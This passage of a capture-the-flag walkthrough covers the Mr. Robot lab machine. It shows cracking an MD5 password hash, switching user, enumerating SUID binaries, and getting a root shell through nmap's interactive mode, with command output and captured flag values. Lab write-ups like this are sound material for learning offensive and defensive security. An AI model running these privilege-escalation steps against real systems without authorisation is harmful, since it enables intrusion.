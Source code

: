 Using **hash-identifier** it seems the hash is of MD5 type. Lets use [crackstation](https://crackstation.net/) for cracking this. Once cracked we have our text: `abcdefghijklmnopqrstuvwxyz`

Doing `su robot` and supplying the above text as password we can login as **robot** user. Now just cat the 2nd key.

`822c73956184f694993bede3eb39f959`

## Key-3

Let's check for priv esc now. 

`sudo -l` : results in nothing

Command: `find / -perm -u=s -type f 2>/dev/null`

Output: 
```bash
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Lets check out nmap payload in [GFTObins](https://gtfobins.github.io/gtfobins/nmap/)

Let's use that to gain access to root owned files

```bash
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
# ls
firstboot_done  key-3-of-3.txt
```
There it is the last key inside /root dir.

`04787ddef27c3dee1ee161b21670b4e4`
